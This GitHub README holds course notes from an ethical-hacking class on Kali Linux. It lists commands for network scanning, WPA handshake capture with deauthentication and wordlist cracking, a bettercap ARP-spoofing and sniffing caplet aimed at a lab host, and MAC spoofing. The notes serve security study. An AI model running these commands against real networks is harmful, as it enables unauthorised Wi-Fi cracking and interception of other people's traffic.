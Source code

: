 # udemy-ethical_hacking_kali_linux
## Udemy - Ethical Hacking With Python, JavaScript and Kali Linux  

### In Kali Linux use next introduction tools:  
netdiscover -i eth0 -r 10.0.2.1/24  
zenmap     --> better tool to scan the network (uses nmap as a core command)  
airmon-ng  --> wlan tool that makes possible to cahange status from Managed to Monitor mode  
iwconfig wlan0 mode monitor  --> manually change mode to Monitor (used after executing "ifconfig wlan0 down/up")  
  
fern --> GUI application to crack WI-FI  
airodump-ng --bssid --channel 6 --write demo-handshake wlan0mon  --> capturing connection handshake  
aireplay-ng --deauth 4 -a (BSSID) -c (STA) wlan0mon  --> force disconnect station and capture with previous app WPA handshake  
aircrack-ng demo-handshake-01.cap -w wordlist  --> will crack demo-handshake against generated wordlist  
  
### In Kali linux try introduction for "bettercap":  

sudo bettercap  --> enter to the console of application  
help            --> to see which modules are available/enabled  
help net.probe  --> will send UDP packets to probe the network on connected devices  
net.probe on    --> turn it on  
help arp.spoof  -->  
set arp.spoof.fullduplex true   --> Will attack the target and the Gateay, this will ensure that if there is protection in GTW, the attack will succeed.  
set arp.spoof.targets 10.0.2.4  --> Adding the target to monitor.  
arp.spoof on    --> enable the spoof service  
set net.sniff.local true  --> If true, will consider packets from/to computer as local.  
net.sniff on    --> enable the sniffing service  
  
  
vim sniff.cap  
----------------------------  
net probe on  
set arp.spoof.fullduplex true  
set arp.spoof.targets 10.0.2.4  
set net.sniff.local true  
arp.spoof on  
net.sniff on  
----------------------------  
bettercap -iface eth0 -caplet sniff.cap  --> will do manual job as auto.  
  
### To change MAC Address of your adapter do next:  
ifconfig wlan0 down  
ifconfig wlan0 hw ether 00:11:22:33:44:55  
ifconfig wlan0 up  

